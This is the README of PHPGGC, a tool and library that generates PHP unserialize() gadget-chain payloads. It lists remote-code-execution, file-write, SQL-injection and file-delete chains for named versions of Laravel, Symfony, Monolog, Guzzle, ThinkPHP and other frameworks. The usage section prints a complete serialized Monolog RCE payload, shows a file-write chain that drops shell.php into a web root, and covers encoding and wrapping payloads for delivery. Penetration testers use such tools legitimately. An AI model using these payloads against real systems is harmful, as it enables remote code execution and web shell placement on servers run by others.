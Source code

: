 # PHPGGC: PHP Generic Gadget Chains

*PHPGGC is a library of unserialize() payloads along with a tool to generate them, from command line or programmatically*.
When encountering an unserialize on a website you don't have the code of, or simply when trying to build an exploit, this tool allows you to generate the payload without having to go through the tedious steps of finding gadgets and combining them. It can be seen as the equivalent of [frohoff's ysoserial](https://github.com/frohoff/ysoserial), but for PHP.
Currently, the tool supports: Doctrine, Guzzle, Laravel, Magento, Monolog, Phalcon, Slim, SwiftMailer, Symfony, Yii and ZendFramework.

## Requirements

PHP >= 5.6 is required to run PHPGGC.

## Update

* ThinkPHP v5.0.x file write
* ThinkPHP v5.2.x RCE
* ThinkPHP v6.0.x RCE

## Usage

Run `./phpggc -l` to obtain a list of gadget chains:

```
$ ./phpggc -l

Gadget Chains
-------------

NAME                  VERSION           TYPE             VECTOR         I
Doctrine/FW1          ?                 file_write       __toString     *
Guzzle/FW1            6.0.0 <= 6.3.2    file_write       __destruct
Guzzle/RCE1           6.0.0 <= 6.3.2    rce              __destruct
Laravel/RCE1          5.4.27            rce              __destruct
Laravel/RCE2          5.5.39            rce              __destruct
Laravel/RCE3          5.5.39            rce              __destruct     *
Laravel/RCE4          5.5.39            rce              __destruct
Magento/SQLI1         ? <= 1.9.3.4      sql_injection    __destruct
Monolog/RCE1          1.18 <= 1.23      rce              __destruct
Monolog/RCE2          1.5 <= 1.17       rce              __destruct
Phalcon/RCE1          <= 1.2.2          rce              __wakeup       *
Slim/RCE1             3.8.1             rce              __toString
SwiftMailer/FW1       5.1.0 <= 5.4.8    file_write       __toString
SwiftMailer/FW2       6.0.0 <= 6.0.1    file_write       __toString
SwiftMailer/FW3       5.0.1             file_write       __toString
Symfony/FW1           2.5.2             file_write       DebugImport    *
Symfony/RCE1          3.3               rce              __destruct     *
Symfony/RCE2          2.3.42 < 2.6      rce              __destruct     *
Symfony/RCE3          2.6 <= 2.8.32     rce              __destruct     *
ThinkPHP/FD1          5.x               file_delete      __destruct     *
Yii/RCE1              1.1.19            rce              __wakeup       *
ZendFramework/RCE1    ? <= 1.12.20      rce              __destruct     *

```

Every gadget chain has:

- Name: Name of the framework/library
- Version: Version of the framework/library for which gadgets are for
- Type: Type of exploitation: RCE, File Write, File Read, Include...
- Vector: the vector to trigger the chain after the unserialize (`__destruct()`, `__toString()`, `offsetGet()`, ...)
- Informations: Other informations about the chain

Use `-i` to get detailed information about a chain:

```
$ ./phpggc -i symfony/rce1
Name           : Symfony/RCE1
Version        : 3.3
Type           : rce
Vector         : __destruct
Informations   : 
Exec through proc_open()

./phpggc Symfony/RCE1 <code>
```

Once you have selected a chain, run `./phpggc <gadget-chain> [parameters]` to obtain the payload.
For instance, to obtain a payload for Monolog, you'd do:

```
$ ./phpggc monolog/rce1 'phpinfo();'
O:32:"Monolog\Handler\SyslogUdpHandler":1:{s:9:"*socket";O:29:"Monolog\Handler\BufferHandler":7:{s:10:"*handler";r:2;s:13:"*bufferSize";i:-1;s:9:"*buffer";a:1:{i:0;a:2:{i:0;s:10:"phpinfo();";s:5:"level";N;}}s:8:"*level";N;s:14:"*initialized";b:1;s:14:"*bufferLimit";i:-1;s:13:"*processors";a:2:{i:0;s:7:"current";i:1;s:6:"assert";}}}
```

For a file write using SwiftMailer, you'd do:

```
$ echo 'It works !' > /tmp/data
$ ./phpggc swiftmailer/fw1 /var/www/html/shell.php /tmp/data
O:13:"Swift_Message":8:{...}
```

Arguments allow to modify the way the payload is output. For instance, `-u` will URL encode it, and `-b` will convert it to base64.
Payloads often contain NULL bytes and cannot be copy/pasted as-is. Use `-s` for a soft URL encode, which keeps the payload readable.

The `-w` option allows you to define a PHP file containing a `wrapper($chain)` function.
This will be called after the chain is built, but before the `serialize()`, in order to adjust the payload's shape.
For instance, if the vulnerable code looks like this:

```
$data = unserialize($_GET['data']);
print $data['message'];
```

You could use a __toString() chain, wrapping it like so:

```
# /tmp/my_wrapper.php

function wrapper($chain)
{
    return array(
        'message' => $chain
    );
}
```

And you'd call phpggc like so:

```
$ ./phpggc -w /tmp/my_wrapper.php slim/rce1 'phpinfo();'
a:1:{s:7:"message";O:18:"Slim\Http\Response":2:{...}}
```

## Contributing

Pull requests are more than welcome. Please follow these simple guidelines:

- Error-free payloads are prefered, as some websites exit abruptly even with E_NOTICE errors
- `__destruct()` is always the best vector
- Specify at least the version of the library you've built the payload on
- Refrain from using references unless it is necessary or drastically reduces the size of the payload. If the payload is modified by hand afterwards, this might cause problems.
- Do not include unused parameters in the gadget definition if they keep their default values. It just makes the payload bigger.

Codewise, the directory structure is fairly straightforward: gadgets in _gadgets.php_, description + logic in _chain.php_.
You can define pre- and post- processing methods, if parameters need to be modified.
Hopefully, the already implemented gadgets should be enough for you to build yours.
Otherwise, I'd be glad to answer your questions.
